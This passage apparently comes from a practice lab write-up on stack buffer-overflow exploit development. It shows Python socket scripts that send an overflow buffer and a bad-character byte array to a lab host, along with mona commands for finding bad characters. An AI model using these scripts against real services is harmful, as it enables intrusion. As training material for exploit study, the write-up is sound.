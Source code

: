 ```python
payload = "\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```

Restart and compare again, we will get a new `esp` address, we need to check it up again and use mona:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x01A4FA30
```

![Pasted image 20250529125231.png](../../IMAGES/Pasted%20image%2020250529125231.png)

Got this, need to do the process all over again:

```
!mona bytearray -b "\x00\x01\x07\x08\x2e\x2f\xa0\xa1"
```

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow= "A" * offset
retn = "BBBB"
padding = ""
payload = "\x02\x03\x04\x05\x06\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```